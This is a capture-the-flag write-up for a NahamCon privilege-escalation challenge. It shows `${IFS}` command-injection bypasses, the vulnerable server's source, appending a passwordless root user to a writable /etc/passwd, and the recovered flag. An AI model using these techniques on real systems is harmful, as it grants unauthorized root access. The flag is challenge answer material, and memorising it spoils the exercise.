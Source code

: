 # Brief Writeup

## Description
> Author: [@JohnHammond#6971](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw)

`I've never felt this close to a character before. I hope the feeling is mutual...  `

## Writeup

This was a privilege escalation challenge, and the reason for the name becomes immediately obvious.

```shell
kali@transistor:~/ctf/nahamcon$ nc challenge.nahamcon.com 31595
user@challenge:~$ ls -la
/bin/sh: 1: ls-la: not found
```

It seems like they're removing the spaces between the parts of our commands. This isn't really that hard to bypass if you're familiar with [Command Injection bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space). In Linux, the [`$IFS`](https://bash.cyberciti.biz/guide/$IFS) environment variable is a special variable that can be used to split up words in a line, but becomes especially useful when spaces are banned.

> At this point, it's super easy to automate creating these commands instead of typing them out everytime. Just use something like Python or CyberChef to take in an input, and then replace all spaces with `${IFS}`. It's not perfect, because working with quotes will be finnicky, but the privesc doesn't really require that.

```shell
user@challenge:~$ ls${IFS}-la
total 28
dr-xr-xr-x 1 user user 4096 Dec 11 19:23 .
drwxr-xr-x 1 root root 4096 Dec 11 19:23 ..
-rw-r--r-- 1 user user  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 user user 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 user user  807 Mar 27  2022 .profile
-r-xr-xr-x 1 root root 1885 Dec 11 19:22 .server.py
-rw-r--r-- 1 root root  174 Dec 11 19:22 README.md
```

We can also read files without using spaces using redirection operators.
```shell
user@challenge:~$ cat<README.md
Your objective to escalate your privileges
and retrieve the flag in /root/flag.txt.

If you look around the filesystem, you may
find some odd permissions you can leverage :)
```

Reading the `.server.py` we understand what we're up against.
```python
user@challenge:~$ cat<./.server.py
#!/usr/bin/env python3

import sys
import textwrap
import socketserver
import string
import readline
import threading
from time import *
from colorama import *
import subprocess

prompt = f"{Fore.GREEN}{Style.BRIGHT}user@challenge{Fore.RESET}{Style.NORMAL}:{Fore.CYAN}{Style.BRIGHT}~{Fore.RESET}{Style.NORMAL}$ "

class Service(socketserver.BaseRequestHandler):

    def handle(self):


        while ( 1 ):
            command = self.receive(prompt)
            no_spaces = command.replace(" ","")
            no_spaces = no_spaces.replace("\t","")
            no_spaces = no_spaces.replace("\n","")
            if no_spaces == "exit":
                return
            print(no_spaces)
            p = subprocess.Popen(no_spaces, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            stdout, stderr = p.communicate()
            self.send(stderr + stdout)


    def send(self, string, newline=True):
        if type(string) is str:
            string = string.encode("utf-8")

        if newline:
            string = string + b"\n"
        self.request.sendall(string)

    def receive(self, prompt="> "):
        self.send(prompt, newline=False)
        return self.request.recv(4096).strip().decode("utf-8")


class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass


def main():

    port = 1337

    host = '0.0.0.0'

    service =  Service
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True

    server_thread = threading.Thread(target=server.serve_forever)

    server_thread.daemon = True
    server_thread.start()

    print( "Server started on " + str(server.server_address) + "!")

    # Now let the main thread just wait...
    while ( True ): sleep(10)

if __name__ == "__main__":
    main()
```

So it's just a noninteractive shell. Taking the hint from the README, I looked for SUID files, what files I owned, and what files should have specific permissions when I stumbled across this.

```shell
user@challenge:~$ ls${IFS}-la${IFS}/etc/passwd
-rw-rw-rw- 1 root root 959 Dec 11 19:23 /etc/passwd
```

The `/etc/passwd` has a record of all of the users on the machine. Despite it being the "password" file, all of the password hashes are now stored in `/etc/shadow` (although who knows about legacy systems). That being said, if you can write to the `/etc/passwd` file, you can basically add a new user with root privileges, because the system will be none the wiser if there's just a new entry from nowhere.

> Reference: [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd)

Since our shell is not interactive, we cannot use the password prompt. Any commands that would let us automate that are not installed on the system. We can, however, add a user with no password, and then use `su` to run a command as another user.

```shell
user@challenge:~$ echo${IFS}'dummy::0:0::/root:/bin/bash'${IFS}>>/etc/passwd

user@challenge:~$ su${IFS}-${IFS}dummy${IFS}-c${IFS}"whoami"
root
```

Using the file read trick from before, we read the flag.

```shell
user@challenge:~$ su${IFS}-${IFS}dummy${IFS}-c${IFS}"cat</root/flag.txt"
flag{59af40c07bc6f02b457aa4c15543da2d}
```
